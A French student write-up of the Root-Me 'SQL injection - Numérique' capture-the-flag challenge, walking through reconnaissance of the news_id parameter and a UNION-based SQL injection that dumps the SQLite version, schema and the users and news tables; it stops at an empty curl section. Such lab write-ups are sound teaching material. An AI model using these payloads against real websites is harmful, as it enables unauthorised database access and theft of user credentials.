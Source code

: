 # Root-Me
## SQL Injection - Numérique

 Etudiant | Date | Sujet 
:---|:---|:---
Hamza Terir | 25/01/2023 | Exploiter une faille SQL pour extraire toutes les informations de la base de données

_____

Lien du challenge : https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Numerique

## Reconnaissance

**Objectif** : Tester toutes les entrées sur l'application web pour essayer de déclancher un comportement innattendu.

### Identifier toutes les entrées sur l'application WEB

![ksnip_20230125-134849](https://user-images.githubusercontent.com/122984033/214567803-b7b44c41-6705-41d1-a1ff-947b32395810.png)

#### Page de login

![image](https://user-images.githubusercontent.com/122984033/214569739-1c6ec860-3eb3-4d38-b114-e8a457479a79.png)

Plusieurs tests ont été effectué dans les champs : 

- Login
- Password

Pas d'erreur à été remonté.

#### Système de News

![image](https://user-images.githubusercontent.com/122984033/214570072-cf714a75-d05f-4247-8b69-532849b26c75.png)

Lien : http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1

En ajoutant plusieurs payload dans le paramètre id, on obtient une erreur de la base de donnée :

```
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1"
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1'
```

![image](https://user-images.githubusercontent.com/122984033/214570180-d50d94fb-2e14-48fd-9280-c1d3f8659b11.png)

![image](https://user-images.githubusercontent.com/122984033/214570474-1c55efa3-a751-4d1b-a0e2-7b5f582eaacd.png)


#### Publication du site

Lien : http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=2

![Pasted image 20230125140529](https://user-images.githubusercontent.com/122984033/214575410-cbea3463-c130-46f9-9b8a-c8d8295663a1.png)

En ajoutant plusieurs payload dans le paramètre id de l'onglet publication du site, on obtient une erreur de la base de donnée :

```
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=2"
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=2'
```

![Pasted image 20230125140748](https://user-images.githubusercontent.com/122984033/214575506-695aeedb-9983-4661-8665-df1cf21f2296.png)


![Pasted image 20230125140809](https://user-images.githubusercontent.com/122984033/214575741-e5167305-1b01-4b93-bfc5-1ffd3475825f.png)

#### Bienvenue / Welcome

Lien : http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=3


![Pasted image 20230125141138](https://user-images.githubusercontent.com/122984033/214575846-0ca6044e-874b-466e-9695-dbf6e27a340f.png)


En ajoutant plusieurs payload dans le paramètre id de l'onglet Bienvenue / Welcome, on obtient une erreur de la base de donnée :

```
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=3"
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=3'
```

![Pasted image 20230125140956](https://user-images.githubusercontent.com/122984033/214575913-1d615128-1bf3-406e-ba82-6a0999df19ae.png)


![Pasted image 20230125141021](https://user-images.githubusercontent.com/122984033/214575973-da23c68f-2225-404f-b5e9-eb2bb9e85ecc.png)


### Point d'injections 

Voilà les points d'injections qui ont été identifier sur l'application web :


![Pasted image 20230125141229](https://user-images.githubusercontent.com/122984033/214576089-0f890d48-94d1-4f9c-b417-16cce2b6e39c.png)


## Exploitation

Nous allons exploiter cette faille pour l'utiliser à notre avantage.
Pour procéder à l'injection, je vais choisir le premier point d'injection qui a été trouvé :


![Pasted image 20230125141620](https://user-images.githubusercontent.com/122984033/214576180-a3c76850-3f6e-47fd-b717-78b3142b4c4d.png)


### Trouver la condition TRUE

Pour assurer l'extraction de la base de données, on doit trouver le payload qui nous donne la condition **TRUE**.


Après l'avoir trouvé sur l'application, le résultat devrait nous donné un résultat positive, en nous donnant aucune erreur sur la page :

En envoyant cette requête à l'aide de plusieurs payloads, on obtient bien une page sans erreur :

```
payload : 

1 OR 77=77 
1 OR 77=77 -- 
1 OR 77=77 --

format :

<url><payload>

Url :

http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 OR 77=77
```

![Pasted image 20230125142422](https://user-images.githubusercontent.com/122984033/214576294-1a5302cc-71e2-404b-9431-55a49ab4bc3e.png)


Nous savons maintenant à l'aide des 3 "null" dans la payload que le nombre de colonnes dans la base de données sqlite est  de **3 colonnes**.

### Determiner le type des colonnes

On remplace chaque null par un chiffre, et on essaye de mettre des quotes pour chaques chiffres un par un pour nous permettre de determiner le type de chaques colonnes.

Après plusieurs tests on retrouves que les 3 colonnes sont des type INT (Entier) :

```
payload : 

1 UNION SELECT 1,2,3

Url : 

http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 UNION SELECT 1,2,3
```

![Pasted image 20230125144403](https://user-images.githubusercontent.com/122984033/214579508-e9e10120-9360-4129-acd1-aede9b1742ee.png)

On peut voir les colonnes s'affichent sur la page.

### Information de la base de données

Maintenant qu'on peut afficher la table 2 et 3 sur la page on peut maintenant faire sortir toute les informations de la base de données.

#### Version SQlite 
```
payload :

1 UNION SELECT 1,sqlite_version(),3

Url :

http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 UNION SELECT 1,sqlite_version(),3
```


![Pasted image 20230125145023](https://user-images.githubusercontent.com/122984033/214581884-cccd3cba-ae3b-4f8b-a0e0-488014cc61b9.png)



#### Enumérer le schema de la base de donnée SQLite
On fait sortir la structure de la base de donnée derrière le site WEB :
```
payload :

1 UNION SELECT 1,name,sql FROM sqlite_master

Url :

http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 UNION SELECT 1,name,sql FROM sqlite_master
```


![Pasted image 20230125150624](https://user-images.githubusercontent.com/122984033/214588288-ca1b5e49-e597-43e4-9152-e24f106a97df.png)



On retrouve maintenant toute la structure de la base de donnée, deux tables ont été extraite du schéma :


- **NEWS** 
- **USERS**


#### Extraire les toutes les informations des tables
Toutes les informations peuvent être extraite de cette façon pour les tables "news" et "users" :

```
payload :

1 UNION SELECT * FROM users

Url :

challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 UNION SELECT * FROM news
```

Table **USERS** :


![Pasted image 20230125151546](https://user-images.githubusercontent.com/122984033/214588496-b4c14be5-986b-4aca-a7fa-2e22007297a4.png)



Table **NEWS** :



![Pasted image 20230125152031](https://user-images.githubusercontent.com/122984033/214588608-0844a585-1874-4111-9c4b-8279414d3b05.png)


## Injection avec CURL
















































